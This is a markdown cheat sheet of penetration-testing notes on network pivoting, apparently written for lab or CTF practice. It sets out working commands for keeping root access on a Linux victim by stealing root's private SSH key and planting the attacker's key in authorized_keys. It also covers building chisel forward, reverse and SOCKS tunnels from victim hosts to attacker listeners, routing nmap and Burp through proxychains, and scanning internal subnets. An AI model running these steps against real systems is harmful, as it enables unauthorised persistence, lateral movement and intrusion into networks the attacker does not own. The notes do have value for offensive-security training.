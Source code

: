 # Pivoting 

## Readme

https://cheatsheet.haax.fr/network/pivot_techniques/
https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html

## Persist

It is important to establish persistence before moving forward with actions on objectives.

### Linux

#### private ssh key

1. copy roots private key: copy-paste in vim is enough

`vim root_key`

2. login via ssh using the key

`ssh -i root_key root@VICTIM_IP`

#### inject your own public key into authorized hosts

```bash
cat id_ed25519.pub >> authorized_keys

# root or any other user
ssh -l root VICTIM_IP
```

##  Proxies

### Forward proxy

some service is listening at victim and connection is incomming from atacker 


### static  forwarding


 <local-interface>:<local-port>:<remote-host>:<remote-port>

which does  port forwarding, sharing server's `<remote-host>:<remote-port>` on clients `<local-interface>:<local-port>`
 
* workflow

Set up new server (this time non socks) on attacker

./chisel server --port 9902

Activate client on victims host

./chisel client 10.10.14.xxx:9902 192.168.1.15:8888:127.0.0.1:443 

So now listener is on 192.168.1.15:8888 which forwards requests to attacker's localhost port 443. Useful to make attacker's external server available from victim within restricted network.

### Reverse proxy

some service is listening at attacker AND connection is incomming from the victim outside firewall



#### static reverse

./chisel server -p 9903 --reverse on local 
./chisel client 10.10.xx.xx:9903 R:127.0.0.1:1280:172.16.xx.xx:80 &

This will open a listener on port 1280 on attackers localhost, and all connections to the target website on 172.16.xx.xx are going to be forwarded via pivot server at 10.10.xx.xx:9903

#### Dynamic reverse proxy

* In this scenario all ports from the victim pivot point aer redirected to attacker so attacker can access Next Victim, which
would be othervise not visible for his network adapter

./chisel server -p 3333 --reverse --socks5

./chisel_lin client 172.16.40.5:3333 R:7777:socks

sudo vim /etc/proxychains4.conf

socks5 127.0.0.1 3333

proxychains nmap -F 10.185.10.0/24


## Configuration for Burp

It can be tricky to use burp with socks but here is a good workaround

1. Setting -> Network -> Connections -> SOCKS proxy 
2. check> Use SOCKS proxy
3. `127.0.0.1 sock_port`
4. in browser selects burps normal proxy `default is 127.0.0.1 8080`
5. no when you browse: attacker -> burp proxy -> socks proxy -> victim
6. Profit!


## scanning with nmap

* run for getting open ports
`seq 1 65535 | xargs -P 50 -I port proxychains -q nmap -p port -sT -T4 10.42.42.2 -oG 10.42.42.2 --open --append-output 10.42.42.2 -Pn -n`

* remove bad lines and save to log file
`grep '/open/' 10.42.42.2 | uniq > openports.log`

* then scan each port separately

